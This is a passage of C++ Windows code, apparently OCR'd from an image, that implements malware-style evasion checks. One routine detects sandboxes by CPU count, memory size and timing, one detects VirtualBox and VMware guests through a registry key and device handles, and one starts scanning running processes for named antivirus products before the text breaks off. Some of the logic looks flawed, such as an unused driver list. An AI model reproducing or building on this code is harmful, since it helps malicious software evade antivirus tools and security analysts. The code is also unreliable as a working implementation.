 bool CheckSandbox() {
    SYSTEM_INFO systemInfo;
    GetSystemInfo(&systemInfo);
    
    MEMORYSTATUSEX memoryStatus;
    memoryStatus.dwLength = sizeof(memoryStatus);
    GlobalMemoryStatusEx(&memoryStatus);
    
    DWORD timeCheck = GetTickCount();
    Sleep(500);
    DWORD timeElapsed = GetTickCount() - timeCheck;
    
    return (systemInfo.dwNumberOfProcessors < 2) || 
           (memoryStatus.ullTotalPhys < 4294967296) || 
           (timeElapsed < 500);
}

bool IsVirtualMachine() {
    HKEY hKey;
    if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"HARDWARE\\DEVICEMAP\\Scsi\\Scsi Port 0\\Scsi Bus 0\\Target Id 0\\Logical Unit Id 0", 0, KEY_READ, &hKey) == ERROR_SUCCESS) {
        RegCloseKey(hKey);
        return true;
    }
    
    const wchar_t* vmDrivers[] = {
        L"VBoxGuest", L"VBoxMouse", L"VBoxSF", L"VBoxVideo",
        L"vmci", L"vmhgfs", L"vmmouse", L"vmx_svga", L"vmxnet"
    };
    
    HANDLE hDriver = CreateFileW(L"\\\\.\\HGFS", GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDriver != INVALID_HANDLE_VALUE) {
        CloseHandle(hDriver);
        return true;
    }
    
    return false;
}

bool DetectAVProcess() {
    const wchar_t* avList[] = {
        L"avp", L"avgui", L"avastsvc", L"bdagent", L"mcshield",
        L"windefend", L"msseces", L"msmpeng", L"savservice"
    };
    
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return false;
    
    PROCESSENTRY32W pe32;
    pe32.dwSize = sizeof(pe32);
    
    if (!Process32FirstW(snapshot, &pe32)) {
        CloseHandle(snapshot);
        return false;
    }
    
